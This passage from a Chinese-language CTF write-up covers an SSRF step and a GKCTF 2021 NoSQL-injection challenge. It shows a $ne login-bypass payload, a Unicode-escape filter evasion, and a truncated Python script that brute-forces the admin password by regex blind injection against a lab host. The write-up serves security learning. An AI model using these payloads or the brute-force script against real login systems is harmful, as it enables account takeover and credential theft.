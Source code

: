 这样我们便可以通过 `/home` 接口的 url 值进行SSRF了：

![image-20210417185827448](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-02ff6881da27d4f2dc8a9d2e36ac00992052bb18.png)

接下来是一个 HTTP 拆分攻击，详情请看：[\[2021 MRCTF\]Half-Nosqli](https://whoamianony.top/2021/04/20/Web%E5%AE%89%E5%85%A8/HTTP%E5%93%8D%E5%BA%94%E6%8B%86%E5%88%86%E6%94%BB%E5%87%BB%EF%BC%88CRLF%20Injection%EF%BC%89/#2021-MRCTF-Half-Nosqli)

### \[GKCTF 2021\]hackme

进入题目，是一个登录框：

![image-20210724160137101](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-d6a5ea327d988bfeccb7592c6acbf2c9691855f9.png)

查看源码发现如下提示：

```html
<!--doyounosql?-->
```

应该是 nosql 注入，随机登录抓包发现解析 json：

![image-20210724160301345](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-ef196f1abe237114cb7e5664ccccd7078c7456be.png)

首先构造永真式：

```json
{"username":{"$ne":1},"password": {"$ne":1}}
```

![image-20210724160516228](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-c30efa06ab1bb6030dfee847f0525fe006bc424e.png)

被检测了，使用 Unicode 编码成功绕过：

![image-20210724160601628](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-fe8d947994c89572fdb96952ff0529bf712f0ff1.png)

应该是通过 Nosql 盲注，让我们把 admin 的密码爆出来，根据以下条件进行布尔盲注：

```json
{"msg":"登录了，但没完全登录"}    // 真
{"msg":"登录失败"}    // 假
```

如下编写盲注脚本：

```python
import requests
import string

password = ''
url = 'http://node4.buuoj.cn:27409/login.php'

while True:
    for c in string.printable:
        if c not in ['*', '+', '.', '?', '|', '#', '&', '$']:

            # When the method is GET
            get_payload = '?username=admin&password[$regex]=^%s' % (password + c)
            # When the method is POST
            post_payload = {
                "username": "admin",
                "password[$regex]": '^' + password + c
            }
            # When the method is POST with JSON
            json_payload = """{"username":"admin", "password":{"\\u0024\\u0072\\u0065\\u0067\\u0065\\u0078":"^%s"}}""" % (password + c)
            headers = {'Content-Type': 'application/json'}
            r = requests.post(url=url, headers=headers, data=json_payload)    # 简单发送 json

```